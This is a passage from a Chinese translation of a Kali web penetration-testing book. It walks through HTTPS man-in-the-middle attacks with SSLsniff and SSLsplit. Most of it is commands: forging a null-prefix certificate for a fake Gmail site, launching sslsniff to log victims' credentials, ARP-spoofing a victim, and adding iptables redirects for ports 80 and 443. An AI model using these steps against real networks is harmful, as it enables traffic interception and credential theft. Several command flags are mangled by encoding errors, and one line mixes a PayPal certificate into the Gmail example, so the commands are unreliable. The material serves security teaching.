 #### SSLsniff

我们先来看看 SSLsniff。然后，SSLsniff 要求您拥有目标 Web 应用程序的私钥和证书（不太可能），或者您生成伪造的证书，如下面的截图所示：

```
openssl req -config openssl.cnf -new -nodes -keyout <targetsite>.key -out <targetsite>.csr -days 365 
```

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/ms-kali-web-pentest/img/B03918_08_13.png)

为 SSLsniff 和 SSLsplit 伪造证书。

我们在**通用名称**（**CN**）中使用 Unicode `\x00`作为占位符，遵循优秀教程提供的指导，链接在这里：[`www.kimiushida.com/bitsandpieces/articles/attacking_ssl_with_sslsniff_and_null_prefixes/`](http://www.kimiushida.com/bitsandpieces/articles/attacking_ssl_with_sslsniff_and_null_prefixes/)。创建一个真正的欺骗证书作为后端编程是必要的，以创建允许受害者浏览器接受的空字符。创建`cert`和`key`后，我们需要使用自己的 CA 签署证书，连接`key`和`cert`，然后将其放置在我们假网站的目录中：

```
openssl ca -config openssl.cnf -policy policy_anything -out gmail.crt -infiles gmail.csr
cat paypal.crt gmail.key > gmail.pem
mkdir -p /usr/share/sslsniff/certs/fakegmail/
cp gmail.pem /usr/share/sslsniff/certs/fakegmail/ 
```

假设您已经正确配置了 IP 转发和`iptables`，SSLsniff 可以使用一个命令启动：

```
sslsniff -t -c /usr/share/sslsniff/certs/fakegmail -s 1111 -w /tmp/sslsniff.log -d â��p 
```

现在我们已经让 SSLsniff 等待我们受害者的流量，我们可以开始使用与 SSLstrip 中使用的相同类型的`arpspoof`来重定向来自客户端的流量：

```
arpspoof â��I eth0 â��t 172.16.30.135 172.16.30.2 
```

您可以查看`sslsniff.log`文件的内容并查看凭证（如下图所示）。这种攻击的成功可能性比 SSLstrip 更大，因为用户仍然会在其浏览器的地址栏中看到一个 HTTPS 会话；并且根据受信任的 CA 配置，他们可能很少意识到事情并不顺利。如果您使用真正的欺骗证书（查看此教程了解可能发生的情况：[`blog.leetsys.com/2012/01/18/insider-rogue-certification-authority-attack/`](https://blog.leetsys.com/2012/01/18/insider-rogue-certification-authority-attack/)），它甚至看起来是有效的。

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/ms-kali-web-pentest/img/B03918_08_14.png)

查看 SSLsniff 的凭证抓取

#### SSLsplit

SSLsplit 采用类似的方法；首先，您需要确保启用了 IP 转发。通常会使用更多的`iptables`条目来拉取更多的端口，提供 NAT，并使用`80`、`8080`、`443`和`8443`的典型重新映射端口：

```
iptables -t nat -F
iptables -t nat -A PREROUTING -p tcp â��dport 80 -j REDIRECT â��to-ports 8080
iptables -t nat -A PREROUTING -p tcp â��dport 443 -j REDIRECT â��to-ports 8443
iptables -I INPUT -p tcp -m state â��state NEW -m tcp â��dport 80 -j ACCEPT
iptables -I INPUT -p tcp -m state â��state NEW -m tcp â��dport 443 -j ACCEPT
iptables -I INPUT -p tcp -m state â��state NEW -m tcp â��dport 8443 -j ACCEPT
iptables -I INPUT -p tcp -m state â��state NEW -m tcp â��dport 8080 -j ACCEPT
service iptables save 
```
